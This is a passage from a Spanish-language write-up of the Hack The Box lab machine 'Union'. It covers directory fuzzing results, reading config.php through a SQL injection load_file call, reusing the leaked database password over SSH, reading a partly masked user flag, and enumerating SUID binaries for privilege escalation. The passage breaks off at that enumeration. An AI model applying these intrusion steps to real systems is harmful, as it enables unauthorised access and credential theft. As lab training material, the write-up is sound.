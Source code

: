 ```
000000001:   200        42 L     93 W       1220 Ch     "# directory-list-2.3-medium.txt"                                                                                      
000001490:   200        0 L      0 W        0 Ch        "config"                                                                                                               
000000881:   200        0 L      2 W        13 Ch       "firewall"                                                                                                             
000004099:   200        20 L     61 W       772 Ch      "challenge"                                                                                                            
000017014:   404        7 L      12 W       162 Ch      "0471253111"  
```
Y encuentro los archivos config.php, firewall.php y challenge.php. Este último ya lo conocemos. Ese config tiene buena pinta, desde el bursuite y usando el load_file intento leerlo. Una ruta web típica es **/var/www/html**

![Config]({{ 'assets/img/writeups/Union/config.png' | relative_url }}){: .center-image }

Encontramos una contraseña **uhc-11qual-global-pw** para el usuario **uhc** para lo que parece ser la base de datos. Puede que se reciclen contraseñas y también sea la de acceso vía ssh. Probamos;
```
❯ ssh uhc@10.10.11.128
uhc@10.10.11.128's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$
``` 
Estamos dentro.

La flag ya la habíamos conseguido antes mediante la inyección SQL, pero me gusta más cuando la consigo habiendo accedido a la máquina.
```
uhc@union:~$ export TERM=xterm
-->Eso lo primero, para poder hacer Ctrl+L y borrar. Ahora si, leo la primera flag;

uhc@union:~$ cat user.txt
5bd07c84eab22e5f45a9fb*********
````

## Escalada de privilegios


```
uhc@union:~$ id
uid=1001(uhc) gid=1001(uhc) groups=1001(uhc)

uhc@union:~$ sudo -l
[sudo] password for uhc: 
Sorry, user uhc may not run sudo on union.

uhc@union:~$ find / -perm -4000 2>/dev/null
/usr/bin/at
/usr/bin/fusermount
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/su
```